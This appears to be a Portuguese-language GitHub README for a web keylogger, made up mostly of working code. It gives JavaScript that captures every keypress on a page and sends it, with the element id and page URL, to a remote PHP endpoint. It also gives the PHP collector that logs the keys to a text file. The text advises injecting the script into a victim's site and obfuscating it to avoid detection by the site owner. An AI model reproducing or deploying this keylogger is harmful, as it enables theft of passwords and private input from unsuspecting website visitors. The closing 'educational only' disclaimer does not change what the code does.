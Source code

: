 #### O QUE PODEMOS FAZER COM UM KEYLOGGER?


Keylogger é um tipo de software que, uma vez ativo em um sistema, pode registrar cada pressionamento de tecla feito pelo sistema. Todo o pressionamento de tecla gravado é salvo em um arquivo de log. Um keylogger pode gravar uma mensagem, e-mail e capturar qualquer tipo de informação que você digitar a qualquer momento usando o teclado.

### Criar arquivo JS Keylogger - keylogger.js

```
if((window.jQuery))
{
 console.log("jQuery Found");
}
else
{
 console.log("jQuery Not Found");
 var script = document.createElement('script');
 script.src = 'https://code.jquery.com/jquery-3.3.1.min.js';
 document.body.appendChild(script);
}

function c(d)
{
 jQuery.ajax(
 {
 dataType: "jsonp",
 type:"GET",
 url: "https://example.com/keylogger.php",
 jsonp:"keypressed",
 data:
 {
 altnKey:d.altKey?1:0,
 ctrlKey:d.ctrlKey?1:0,
 userKey:d.key,
 targKey:d.target.id,
 userURI:d.target.baseURI
 },
 async:false,
 success: function(data)
 {
 console.log(data);
 },
 error:function(xhr, ajaxOptions, thrownError)
 {
 console.log("Error");
 }
 });
}

window.onload = function()
{
 window.addEventListener("keydown", function(e)
 {
 c(e);
 });
}  
```
O código acima em JavaScript pode ser injetado diretamente no site da vítima ou pode ser hospedado remotamente. O objetivo deste código é pegar o pressionamento de tecla do usuário e enviá-lo para um servidor remoto. Certifique-se de substituir " https://example.com/keylogger.php " pelo URL real do seu arquivo PHP.

Para economizar tempo vamos fazer isso com jQuery. Portanto, para evitar erros, a primeira coisa que fazemos é garantir que o jQuery esteja presente na página da vítima e carregá-lo caso não o encontremos.

Declaramos uma função " c ", onde o parâmetro " d " será o pressionamento da tecla. Esta função terá uma chamada Ajax para o arquivo PHP que recebe as teclas.

#### Criar arquivo PHP Keylogger - keylogger.php

```
header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
header('Access-Control-Allow-Methods: GET, REQUEST, OPTIONS');
header('Access-Control-Allow-Credentials: true');
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: Content-Type, *');

$file = 'data.txt';
if(!file_exists($file))
{
 $fh = fopen($file, 'w');
}

function f($str)
{
 return trim(preg_replace("(\\\)","",htmlentities(strip_tags($str),ENT_QUOTES,'UTF-8')));
}

$altnKey=(int)$_GET['altnKey'];
$ctrlKey=(int)$_GET['ctrlKey'];
$userKey=f($_GET['userKey']);
$targKey=f($_GET['targKey']);
$userURI=f($_GET['URI']);

$string = $altnKey."|".$ctrlKey."|".$userKey."|".$targKey."|".$userURI." ";
file_put_contents($file, $string, FILE_APPEND);
```

A parte do servidor está em PHP. Não há nada a explicar sobre o código acima, o objetivo do arquivo PHP é receber o valor do pressionamento de tecla transferido em Ajax pelo JavaScript e armazená-lo em um arquivo de texto simples. O "keylogger.php" deve ser hospedado em um servidor remoto e a URL completa do arquivo deve ser especificada no arquivo "keylogger.js".

Você pode adaptar o código acima para atender às suas necessidades exatas. Por exemplo, talvez você queira salvar os resultados diretamente em um banco de dados ou enviá-los para um endereço de e-mail.
COMO FUNCIONA ?
Um keylogger simples baseado na web. Nesta documentação, você saberá como funciona o keylogger, tipo de programação pela qual registramos e monitoramos cada pressionamento de tecla digitado pelo usuário em um site.

#### OBFUSCAÇÃO DE JAVASCRIPT
Podemos ir mais longe, usando uma ferramenta on-line de ofuscação para ocultar nosso código JavaScript e evitar que o proprietário do site detecte o keylogger à primeira vista.

**Sinta-se livre para contribuir para corrigir quaisquer problemas, ou para apresentar um problema!**

**Por favor, note, este repo é apenas para fins educacionais. Nenhum contribuinte, maior ou menor, é culpado por quaisquer ações feitas por este programa.**

